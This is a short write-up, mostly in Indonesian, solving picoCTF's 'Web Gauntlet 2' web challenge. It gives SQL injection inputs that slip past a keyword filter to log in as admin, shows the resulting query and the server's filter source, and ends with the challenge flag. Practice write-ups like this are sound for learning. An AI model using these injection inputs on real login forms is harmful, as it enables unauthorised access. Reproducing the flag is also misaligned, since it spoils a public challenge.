# Web Gauntlet 2
- Link: https://play.picoctf.org/practice/challenge/174?category=1&page=3

## Tantangan
This website looks familiar... Log in as admin Site: http://mercury.picoctf.net:35178/ Filter: http://mercury.picoctf.net:35178/filter.php

## Penyelesaian
- Buka URL http://mercury.picoctf.net:35178/ di browser. Disini terlihat bahwa kita harus login menggunakan SQL Injection


- Buka URL http://mercury.picoctf.net:35178/filter.php di browser untuk melihat input yang tidak diperbolehkan 


- Dari sekian banyak input username dan password, kita bisa memasukkan input berikut untuk membypass login
```sh
username: adm'||'in
password: a' is not 'b
```


- Dari inputan diatas akan terbentuk query sebagai berikut
```sh
SELECT username, password FROM users WHERE username='adm'||'in' AND password='a' is not 'b'
```

- Sekarang kita buka URL http://mercury.picoctf.net:35178/filter.php untuk mendapatkan flag. Berikut adalah isi halaman setelah kita berhasil membypass login
```sh
<?php
session_start();

if (!isset($_SESSION["winner2"])) {
    $_SESSION["winner2"] = 0;
}
$win = $_SESSION["winner2"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner2"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner2"] = 0;
}

// picoCTF{0n3_m0r3_t1m3_86f3e77f3c5a076866a0fdb3b29c52fd}
?>
```
- Flag
```sh
picoCTF{0n3_m0r3_t1m3_86f3e77f3c5a076866a0fdb3b29c52fd}
```